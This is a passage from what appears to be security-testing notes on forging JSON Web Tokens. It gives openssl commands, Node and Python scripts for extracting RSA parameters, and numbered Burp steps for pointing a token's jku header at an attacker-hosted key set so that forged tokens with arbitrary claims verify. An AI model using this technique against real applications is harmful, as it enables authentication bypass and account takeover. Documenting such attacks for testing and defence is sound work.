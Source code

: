     --> It's possible to generate a new private/public key, embeded the new public key inside the token and use it to generate a new signature:
    -----------------------------------------------------
    openssl genrsa -out keypair.pem 2048
    openssl rsa -in keypair.pem -pubout -out publickey.crt
    openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
    --> You can obtain the "n" and "e" using this nodejs script:
    const NodeRSA = require('node-rsa');
    const fs = require('fs');
    keyPair = fs.readFileSync("keypair.pem");
    const key = new NodeRSA(keyPair);
    const publicComponents = key.exportKey('components-public');
    console.log('Parameter n: ', publicComponents.n.toString("hex"));
    console.log('Parameter e: ', publicComponents.e.toString(16));
    ---------------------------------------------------------------------------------------
    	--> Finally, using the public and private key and the new "n" and "e" values you can use jwt.io to forge a new valid JWT with any information
    ```
    
- ****`jku` parameter**
    
    jku stands for **JWK Set URL**. If the token uses a “**jku**” **Header** claim then **check out the provided URL**. This should point to a URL containing the JWKS file that holds the Public Key for verifying the token. Tamper the token to point the jku value to a web service you can monitor traffic for.
    
    ```python
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    3. Decode the JWT token and check if it contents jku attribute in Header section
    4. Generate you Public and Private Key pair using below commands:
    		"openssl genrsa -out keypair.pem 2048"
    		"openssl rsa -in keypair.pem -pubout -out publickey.crt"
    		"openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key"
    	8 it will generate Public Key - "publickey.crt" & Private Key - "pkcs8.key"
    5. Use Jwt.io and paste the public key (publicKey.pem) and the private key (attacker.key) in their respective places in the "Decoded" section.
    6. Host the generated certificate locally and modify the jku header parameter accordingly.
    7. Retrieve the jwks.json file from the URL present in the jku header claim
    		"wget <http://example.com:8000/jwks.json>"
    8. Make a Python script "getPublicParams.py":
    		from Crypto.PublicKey import RSA
    
    		fp = open("publickey.crt", "r")
    		key = RSA.importKey(fp.read())
    		fp.close()
    		print "n:", hex(key.n)
    		print "e:", hex(key.e)
    9. Run python script "python getPublicParams.py"
    10. Update the values of n and e in local jkws.json
    11. Hosting the JWK Set JSON file using repl.it or any server
    12. Manipulate the payload section and copy the generated jwt token from jwt.io
    13. Done, change the JWT token in our request and Forward!
    ```
    